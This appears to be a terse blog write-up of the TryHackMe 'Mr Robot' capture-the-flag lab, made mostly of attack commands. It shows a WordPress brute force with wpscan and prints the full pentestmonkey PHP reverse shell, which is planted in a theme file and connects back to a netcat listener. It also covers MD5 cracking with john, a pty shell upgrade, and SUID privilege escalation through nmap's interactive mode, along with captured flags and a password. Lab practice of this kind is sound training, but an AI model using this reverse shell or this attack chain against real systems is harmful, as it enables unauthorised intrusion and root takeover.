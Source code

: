 ```yaml
---
layout: post
title: mr robots
date: 2021-04-09
categories: [tryhackme, Medium]
tags: [gobuster, code-analysis, Exploit] # add tag
image: /assets/img/mr.robot/mrrobot.jpg
---
```


|Machine|Detail
|:---|:--
|Release date | 12 Sep 2020
|OS | Linux
|Rating | Medium
|Creator | [Ben](https://tryhackme.com/p/ben)

nmap -sC -sV ip -T5

gobuster dir -u ip -w /usr/share/wordlists/dirb/common.txt

10.10.61.197/key-1-of-3.txt [ 073403c8a58a1f80d943455fb30724b9 ]

wc -l fsocity.dic

sort fsocity.dic | uniq > fsocity-sorted.dic

wc -l fsocity-sorted.dic

10.10.61.197/wp-admin

wpscan --url 0.10.61.197 --wp-content-dir wp-admin --usernames elliot --passwords ~/Downloads/fsocity-sorted.dic

http://10.10.61.197/wp-admin/theme-editor.php?file=archive.php&theme=twentyfifteen&scrollto=3409

```

<?php
See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  
   1 => array("pipe", "w"),  
   2 => array("pipe", "w")   
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

```

nc -nlvp 1234

http://10.10.61.197/wp-content/themes/twentyfifteen/archive.php

sukses

cd robot

cat password.raw-md5

john hash.txt --wordlist=~/Downloads/fsocity.dic --format=RAW-MD5

```python -c 'import pty; pty.spawn("/bin/bash")'```

su robot

password : abcdefghijklmnopqrstuvwxyz

cat ~/key-2-of-3.txt [ 822c73956184f694993bede3eb39f959 ]

```find / -perm /4000 -print 2>/dev/null```

nmap --interactive

ketik command !sh 


